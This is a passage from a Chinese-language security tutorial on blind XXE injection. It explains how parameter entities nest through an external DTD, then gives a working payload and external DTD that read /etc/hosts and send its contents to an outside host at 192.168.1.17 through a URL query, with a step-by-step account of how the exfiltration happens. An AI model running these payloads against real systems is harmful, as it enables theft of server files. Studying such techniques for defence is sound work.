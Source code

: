 前面提到只有在 DTD 文件中声明 参数实体 时才可以引用其他参数实体，如

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
    <!ENTITY % param1 "Hello">
    <!ENTITY % param2 ",World">
    <!ENTITY % outter SYSTEM "other.dtd">
    %outter;
]>
```

`other.dtd` 文件内容为:

`<!ENTITY % name "%param1;%param2;">`

参数实体 name 引用了 参数实体 param1 和 param2，最后的值为 Hello,World

根据上面的分析，给出方法：

请求payload

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://192.168.1.17:80/file.dtd">%remote;%int;%send;
]>
<foo></foo>
```

外部 DTD 文件 `http://192.168.1.17:80/file.dtd` 内容：

```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % int "<!ENTITY &#37; send system 'http://192.168.1.17:80/?p=%file;'>">
```

因为实体的值中不能有 `%`, 所以将其转成html实体编码 \` %`

### 过程分析：

首先 `%remote`; 加载 外部 DTD 文件，得到：

```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % int "<!ENTITY &#37; send system 'http://192.168.1.17:80/?p=%file;'>">

%int;%send;
```

接着 `%int;` 获取对应实体的值，因为值中包含实体引用 `%file;`, 即 `/etc/hosts` 文件的内容，得到:

```
<!ENTITY &#37; send system 'http://192.168.1.17:80/?p=[文件内容]'>

%send;
```

最后 `%send;` 获取对应实体的值，会去请求对应 URL 的资源，通过查看访问日志即可得到文件内容，当然这里还需要对内容进行编码，防止XML解析出错.

**以下内容参考了exploitation-xml-external-entity-xxe-injection 这篇文章 **
